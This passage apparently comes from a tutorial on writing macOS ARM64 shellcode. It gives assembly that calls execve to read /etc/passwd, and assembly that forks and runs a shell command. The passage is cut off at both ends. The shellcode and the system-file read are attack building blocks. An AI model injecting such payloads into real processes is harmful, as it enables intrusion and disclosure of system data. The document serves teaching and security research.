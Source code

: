 ```armasm
sh_path: .asciz "/bin/sh"
```
{{#endtab}}
{{#endtabs}}

#### Čitaj sa cat

Cilj je izvršiti `execve("/bin/cat", ["/bin/cat", "/etc/passwd"], NULL)`, tako da je drugi argument (x1) niz parametara (što u memoriji znači stek adresa).
```armasm
.section __TEXT,__text     ; Begin a new section of type __TEXT and name __text
.global _main              ; Declare a global symbol _main
.align 2                   ; Align the beginning of the following code to a 4-byte boundary

_main:
; Prepare the arguments for the execve syscall
sub sp, sp, #48        ; Allocate space on the stack
mov x1, sp             ; x1 will hold the address of the argument array
adr x0, cat_path
str x0, [x1]           ; Store the address of "/bin/cat" as the first argument
adr x0, passwd_path    ; Get the address of "/etc/passwd"
str x0, [x1, #8]       ; Store the address of "/etc/passwd" as the second argument
str xzr, [x1, #16]     ; Store NULL as the third argument (end of arguments)

adr x0, cat_path
mov x2, xzr            ; Clear x2 to hold NULL (no environment variables)
mov x16, #59           ; Load the syscall number for execve (59) into x8
svc 0                  ; Make the syscall


cat_path: .asciz "/bin/cat"
.align 2
passwd_path: .asciz "/etc/passwd"
```
#### Pozovite komandu sa sh iz fork-a tako da glavni proces ne bude ubijen
```armasm
.section __TEXT,__text     ; Begin a new section of type __TEXT and name __text
.global _main              ; Declare a global symbol _main
.align 2                   ; Align the beginning of the following code to a 4-byte boundary

_main:
; Prepare the arguments for the fork syscall
mov x16, #2            ; Load the syscall number for fork (2) into x8
svc 0                  ; Make the syscall
cmp x1, #0             ; In macOS, if x1 == 0, it's parent process, https://opensource.apple.com/source/xnu/xnu-7195.81.3/libsyscall/custom/__fork.s.auto.html
beq _loop              ; If not child process, loop

; Prepare the arguments for the execve syscall

sub sp, sp, #64        ; Allocate space on the stack
mov x1, sp             ; x1 will hold the address of the argument array
adr x0, sh_path
str x0, [x1]           ; Store the address of "/bin/sh" as the first argument
adr x0, sh_c_option    ; Get the address of "-c"
str x0, [x1, #8]       ; Store the address of "-c" as the second argument
adr x0, touch_command  ; Get the address of "touch /tmp/lalala"
str x0, [x1, #16]      ; Store the address of "touch /tmp/lalala" as the third argument
str xzr, [x1, #24]     ; Store NULL as the fourth argument (end of arguments)

adr x0, sh_path
mov x2, xzr            ; Clear x2 to hold NULL (no environment variables)
mov x16, #59           ; Load the syscall number for execve (59) into x8
```